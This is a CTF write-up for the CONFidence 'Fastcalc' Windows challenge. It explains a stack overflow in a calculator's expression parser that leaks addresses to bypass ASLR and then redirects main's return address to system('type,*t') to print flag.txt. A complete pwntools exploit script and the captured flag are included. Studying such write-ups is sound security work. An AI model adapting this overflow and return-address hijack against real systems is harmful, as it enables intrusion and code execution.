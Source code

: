 # Fastcalc 

## Challenge description
```
What would a CONFidence CTF be without a Windows-hosted exploitation challenge? :) This time you're facing a fast, greatly optimized calculator capable of concurrently evaluating multiple expressions. In fact it is so technically advanced that it will only run on CPUs supporting the cutting-edge SSE2 extension. Do you think you can hack it?

Don't be scared too easily by the scoring -- it is mostly meant to encourage pwning this exotic "Windows" system. :-)

The service is running at fastcalc.hackable.software:4141. The flag is in the "flag.txt" file.

The platform is Windows Server 2012 R2. You can reproduce the task's environment by running: AppJailLauncher.exe /outbound /port:4141 /timeout:1000000000 /key:flag.txt fastcalc.exe
```

## Walkthrough
We reversed fastcalc.exe found that it parses a mathmatical expression, and assigns a fiber with the task of calculating the expression.
The parsing included a static array allocated on the stack for values and operations. Looks something like this:
```c
struct {
	int count;
	struct val {
		int type;
		union  {
			char op;
			double num;
		}
	}[LENGTH];
};
```

Not sure what is the original array length. The size of the val struct is 16 bytes (4 DWORDS), type is at +0, op/num is at +8.
Using a large enough expression we can overwrite some of the program stack.

The expression is composed of the following pattern - NUM OP NUM OP NUM OP… NUM

This means that for every 32 bytes we overwrite we control 8 (the number), we write 12 with barely controlled values (the type and op), and 12 bytes that are not overwritten.
This gives us 8 bytes of full control for every 32 bytes.
Luckly for us, this write pattern allowed us to easily avoid corrupting the stack cookie.

First thing we overwrite is an std::string, we change the length to be bigger than allocated.
We also change the capacity to be a small value. (bellow 0x10 bytes)
Since the string capacity is small, it uses the stack as the buffer.
When the string is read, the stack is leaked. (the string is read using the run operation showing the “expression”)

The stack contained pointers to the stack and to the running module providing enough data to bypass ASLR.

The program contained a function that calls system we use this to read the flag.

Overwrite the return address of main and a single DWORD after that.
Point the return address to the opcode “call system”.
Write the string “type,*t” using one of the double values and point the next DWORD to that string.

When the main function returns, it jumps to system with the argument “type,*t” which prints all the files whose name ends with “t”, like the file flag.txt.

exploit code:
```python
from pwn import *

HOST = '192.168.2.100'
PORT = 4141

HOST = 'fastcalc.hackable.software' #:4141

r = remote(HOST, PORT)

SYSTEM_OFFSET = 0xC862
SYSTEM_OFFSET = 0x3055
MODULE_BASE_OFFSET = 0x13483
    
def leak_stack():
    info('leaking the stack')
    r.recvuntil('Operation: ')
    r.send('new\r\n')
    r.recvuntil('expression:')
    
    # the overflow overwrites a expression string (std::string) in the stack.
    # we change capacity to 0 and size to 0x256 to leak stack addresses.
    lcmd = '0.1*' * 129 + "1.26895348305e-311"
    r.send(lcmd + '\n')

    r.recvuntil('Operation: ')
    r.send('run\n')

    d = r.recvuntil('Operation:')

    # drain the running operations
    data = d
    while 'still running' in data:
        r.send('run\n')
        data = r.recvuntil('Operation:')

    PAT = 'Expression '
    idx = d.find(PAT)
    dd = d[idx+len(PAT):]

    # print hexdump(dd)
    
    return dd

dd = leak_stack()
# 0x30 offset to ptr fastcalc+13483
fastcalc_base = u32(dd[0x30:0x34]) - MODULE_BASE_OFFSET

prev_ebp = u32(dd[0x48:0x4c])
cur_ebp = prev_ebp + 0x48 
stack_ptr = cur_ebp - 0x0000006c

system_addr = p32(fastcalc_base+SYSTEM_OFFSET)
stack_addr = p32(stack_ptr)

info("fastcalc_base - {}".format(hex(fastcalc_base)))
info("system_addr - {}".format(hex(u32(system_addr))))
info("stack_addr - {}".format(hex(u32(stack_addr))))

float_value = struct.unpack('d',system_addr+stack_addr)

# 8 bytes cmd without white spaces.
cmd = 'type,*t\x00'
cmd_float = struct.unpack('d', cmd)
lcmd = '0.1*' * 129 + "1.26895348305e-311*1*" + '{:.17e}*{:.17e}'.format(float_value[0], cmd_float[0])

r.send('new\n')

info('overwriting the stack')
r.recvuntil('expression:')
r.send(lcmd + '\n')

info('triggering the exploit')
r.recvuntil('Operation:')
r.send("notoperation\n")

for i in xrange(10):
    print r.recvuntil('\n', timeout=0.1)

r.close()
```

## The Flag
```
DrgnS{F1b3r5_41m057_l1k3_7hr34d5_bu7_n07_qu1t3_s0}
```